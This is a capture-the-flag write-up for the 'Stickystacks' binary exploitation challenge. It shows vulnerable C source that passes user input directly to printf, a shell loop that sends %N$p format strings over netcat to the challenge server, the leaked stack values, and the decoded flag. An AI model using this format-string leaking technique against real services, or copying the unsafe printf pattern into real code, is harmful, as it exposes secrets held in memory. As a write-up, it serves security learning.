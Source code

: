 # Stickystacks
**Category: Binary Exploitation**

This challenge presents a binary that asks for a name, and then prints a message containing the first 6 characters of that name.

```
$ ./stickystacks
Name:
Bobby Tables
Welcome, Bobby
```

The source was provided:

```c
typedef struct Secrets {
    char secret1[50];
    char password[50];
    char birthday[50];
    char ssn[50];
    char flag[128];
} Secrets;


int vuln(){
    char name[7];
    
    Secrets boshsecrets = {
        .secret1 = "CTFs are fun!",
        .password= "password123",
        .birthday = "1/1/1970",
        .ssn = "123-456-7890",
    };
    
    
    FILE *f = fopen("flag.txt","r");
    if (!f) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(&(boshsecrets.flag), 128, f);
    
    
    puts("Name: ");
    
    fgets(name, 6, stdin);
    
    
    printf("Welcome, ");
    printf(name);
    printf("\n");
    
    return 0;
}
```

The flag value is put into the struct, and it is never printed.

We can see that we control a 6 byte value that gets sent to `printf`. We can use this to abuse a format string vulnerability to read values from the stack. For example, the `%s` format specifier will leak a string:

```
$ ./stickystacks
Name: 
%s
Welcome, Welcome,
```

We can leak a bunch of values off the stack at different offsets in a loop until we find values that look suspicious.

```sh
$ for i in {0..50}; do echo $i; echo %$i\$p | nc shell.actf.co 21820; done
...
33
Name: 
Welcome, 0x6c65777b66746361
34
Name: 
Welcome, 0x61625f6d27695f6c
35
Name: 
Welcome, 0x6c625f6e695f6b63
36
Name: 
Welcome, 0x5f7365795f6b6361
37
Name: 
Welcome, 0x6b6361625f6d2769
38
Name: 
Welcome, 0x5f6568745f6e695f
39
Name: 
Welcome, 0x65625f6b63617473
40
Name: 
Welcome, 0x3439323135623963
41
Name: 
Welcome, 0x3438363737646165
42
Name: 
Welcome, 0xa7d333935663161
...
```

I stitched the values together in CyberChef. Note that the "a" in the hex at the 42nd iteration had to be trimmed out to make the value a valid string.

![cyberchef](cyberchef.png)

`actf{well_i'm_back_in_black_yes_i'm_back_in_the_stack_bec9b51294ead77684a1f593}`
